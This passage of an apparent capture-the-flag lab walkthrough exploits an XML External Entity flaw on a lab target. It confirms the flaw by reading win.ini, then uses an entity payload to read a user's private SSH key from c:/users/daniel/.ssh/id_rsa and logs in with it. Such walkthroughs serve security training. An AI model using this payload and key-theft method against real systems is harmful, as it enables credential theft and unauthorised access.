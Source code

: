 *The output of the ```win.ini``` file on the target itself is dispalyed in our response message, which proves that the XML External Entity vulnerability is present.*

*We can try guessing where all the important files are located, however, it might turn out to be an endless road. Let's try to find something of importance on the HTML code of the web page.*

```
 <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Goods & Services</title>
        <!-- Modified by Daniel : UI-Fix-9092-->
        <style>
		(...)
```

*```Modified by Daniel```. This could be a hint towards a username present on the target system, since they would have access to the web page's source code for configuration purposes. Since we can already navigate the files present on the target system using the XXE vulnerability, let's attempt to navigate to the daniel user's ```.ssh``` folder in order to attempt to retrieve their private key.*

Note: we need to modify the following line in our Repeater request like this:

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
```

*The RSA key is printed out in the output, from where it can be placed in a local file on your machine named ```id_rsa```, which you can later use to connect to the target at any point in time. Pick a folder to create the file in and run the commands below.*

```
┌──(lea㉿lea)-[~/Documents]
└─$ touch id_rsa      
                                                                                                                                                                                           
┌──(lea㉿lea)-[~/Documents]
└─$ ls -la id_rsa 
-rw-rw-r-- 1 lea lea 0 Sep 12 16:22 id_rsa
```

*Next, copy the RSA key present in the Response in BurpSuite and paste it into the ```id_rsa``` file using the text editor of your choice. It's also important to set the right privileges for the id_rsa file so as to be accepted by your SSH client.*

```
┌──(lea㉿lea)-[~/Documents]
└─$ chmod 400 id_rsa   
                                                                                                                                                                                            
┌──(lea㉿lea)-[~/Documents]
└─$ ls -la id_rsa 
-r-------- 1 lea lea 2602 Sep 12 16:25 id_rsa
```

*Following this, we can attempt to log in as the daniel user through our SSH client, using his private key.*

```
ssh -i id_rsa daniel@10.129.95.192
```
